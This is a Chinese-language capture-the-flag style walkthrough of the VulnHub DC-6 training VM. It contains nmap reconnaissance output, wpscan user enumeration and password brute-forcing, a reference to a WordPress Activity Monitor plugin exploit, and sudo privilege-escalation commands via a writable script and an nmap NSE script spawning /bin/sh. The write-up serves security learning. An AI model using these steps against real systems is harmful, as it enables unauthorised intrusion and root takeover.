 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC6-Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-10-05
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - vulnhub
  - DC6
comment: false

typora-root-url: ..\..\..\..\.vuepress\public


---
```


## 0x01 介绍

靶机地址：

> <https://www.vulnhub.com/entry/dc-6,315/>

**DESCRIPTION**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:**

```
192.168.0.142 wordy
```

## 0x02 信息收集

扫描IP

```
nmap -sP 172.16.89.0/24
```

![image-20211005150145884](/assets/img/image-20211005150145884.png)

发现ip：172.16.89.7

进一步扫描

```
nmap -T5 -A -v -p- 172.16.89.7
```

结果

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-05 15:02 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating ARP Ping Scan at 15:02
Scanning 172.16.89.7 [1 port]
Completed ARP Ping Scan at 15:02, 0.02s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:02
Completed Parallel DNS resolution of 1 host. at 15:02, 0.00s elapsed
Initiating SYN Stealth Scan at 15:02
Scanning 172.16.89.7 [65535 ports]
Discovered open port 22/tcp on 172.16.89.7
Discovered open port 80/tcp on 172.16.89.7
Completed SYN Stealth Scan at 15:02, 5.10s elapsed (65535 total ports)
Initiating Service scan at 15:02
Scanning 2 services on 172.16.89.7
Completed Service scan at 15:02, 6.54s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 172.16.89.7
NSE: Script scanning 172.16.89.7.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.65s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.03s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Nmap scan report for 172.16.89.7
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
MAC Address: 00:0C:29:9F:2E:8D (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Sun Mar 21 13:53:15 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.04 ms 172.16.89.7

NSE: Script Post-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.14 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

修改host文件

```
echo "172.16.89.7 wordy" >> /etc/hosts
```

访问http://wordy，发现目标是wordpress搭建的网站

![image-20211005150502759](/assets/img/image-20211005150502759.png)

## 0x03 渗透

使用wps扫描网站用户

```
wpscan --url http://wordy --enumerate u
```

根据提示生成密码字典

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

使用wpscan爆破

```
wpscan --url http://wordy --passwords passwords.txt
```

爆破出一个账号：mark，密码：helpdesk01

![image-20211005162459020](/assets/img/image-20211005162459020.png)

使用爆破得到的账号登陆后，发现安装有Active Monitor插件

```
searchsploit Activity Monitor -w
```

发现存在漏洞

https://www.exploit-db.com/exploits/50110

下载利用，得到shell，在kali上回弹shell

![image-20211005162756068](/assets/img/image-20211005162756068.png)

升级shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

翻一下/home，在mark下发现graham的密码

![image-20211005163415161](/assets/img/image-20211005163415161.png)

切换用户到graham，运行sudo -l

![image-20211005164152979](/assets/img/image-20211005164152979.png)

可以使用jens权限执行sh脚本，获得jens权限

```bash
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

执行sudo -l

![image-20211005164709678](/assets/img/image-20211005164709678.png)

可以执行nmap，参考前面nmap越权方法

```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
```

![image-20211005164930280](/assets/img/image-20211005164930280.png)